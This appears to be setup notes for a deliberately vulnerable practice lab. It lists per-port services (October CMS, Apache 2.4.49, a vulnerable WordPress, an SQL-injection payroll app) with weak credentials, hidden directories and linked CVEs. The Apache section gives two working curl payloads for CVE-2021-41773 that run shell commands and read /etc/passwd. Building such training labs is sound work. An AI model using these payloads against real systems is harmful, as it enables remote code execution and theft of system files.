# October CMS

1. **tcp 8511**
2. Post deployment: go to **backend** and configure user and password.
3. password attack, username/password comes from credz

# Apache 2.4.49

1. **tcp 8512**
2. Hidden dir, Apache 2.4.49 vuln: [CVE-2021-41773 path traversal and RCE in Apache 2.4.49](https://github.com/vulhub/vulhub/tree/master/httpd/CVE-2021-41773) - [EDB-ID 50383](https://www.exploit-db.com/exploits/50383)
3. Provide hint about exploits in hidden dir
4. add robots.txt w/ dir name

```
Exploits:
curl -s --path-as-is -d "echo; id" "172.17.0.1:8512/cgi-bin/.%2e/.%2e/.%2e/.%2e/bin/sh"
curl -s --path-as-is -d "echo; id" "172.17.0.1:8512/icons/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd"
```
# Wordpress w/vulnerable plugins

1. **tcp 8514**
2. WP latest: [Damn Vulnerable WordPress](https://github.com/vavkamil/dvwp). **Multiple CVEs in plugins**.
3. Weak admin password 
```
Need to add database "wordpress" to wordpress_mysql
Need to update db host from "mysql" to "wordpress_mysql" in wp-config.php
Manually activate plugins after finishing installation
```
- Weak password (admin/admin)
- [Plugin InfiniteWP Client < 1.9.4.5 Auth Bypass](https://wpscan.com/vulnerability/10011). [EDB-ID 47939](https://www.exploit-db.com/exploits/47939)
- [WordPress File Upload < 4.13.0 - Directory Traversal to RCE](https://wpvulndb.com/vulnerabilities/10132).
- [WP Advanced Search < 3.3.4 - Unauthenticated Database Access and Remote Code Execution (RCE)](https://wpvulndb.com/vulnerabilities/10115)
- [Social Warfare <= 3.5.2 - Unauthenticated Arbitrary Settings Update](https://wpvulndb.com/vulnerabilities/9238). [EDB-ID 46794](https://www.exploit-db.com/exploits/46794)

# startrek payroll
1. **tcp 8515** 
2. SQLi [thomaslaurenson/startrek_payroll](https://github.com/thomaslaurenson/startrek_payroll)
3. Credentials for **authenticated RCE in phpmyadmin 4.8.1** stored in adjacent database.
4. move app to hidden dir that requires long wordlist 
